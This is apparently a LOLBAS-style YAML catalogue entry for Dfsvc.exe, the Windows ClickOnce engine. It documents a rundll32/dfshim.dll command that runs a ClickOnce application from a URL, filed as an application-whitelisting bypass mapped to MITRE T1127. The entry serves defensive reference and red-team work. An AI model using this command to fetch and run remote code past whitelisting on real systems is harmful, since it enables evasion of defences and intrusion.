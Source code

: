 ```yaml
---
Name: Dfsvc.exe
Description: ClickOnce engine in Windows used by .NET
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: rundll32.exe dfshim.dll,ShOpenVerbApplication http://www.domain.com/application/?param1=foo
    Description: Executes click-once-application from Url
    Usecase: Use binary to bypass Application whitelisting
    Category: AWL bypass
    Privileges: User
    MitreID: T1127
    MitreLink: https://attack.mitre.org/wiki/Technique/T1127
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Dfsvc.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Dfsvc.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://github.com/api0cradle/ShmooCon-2015/blob/master/ShmooCon-2015-Simple-WLEvasion.pdf
  - Link: https://stackoverflow.com/questions/13312273/clickonce-runtime-dfsvc-exe
Acknowledgement:
  - Person: Casey Smith
    Handle: "@subtee"
---
```

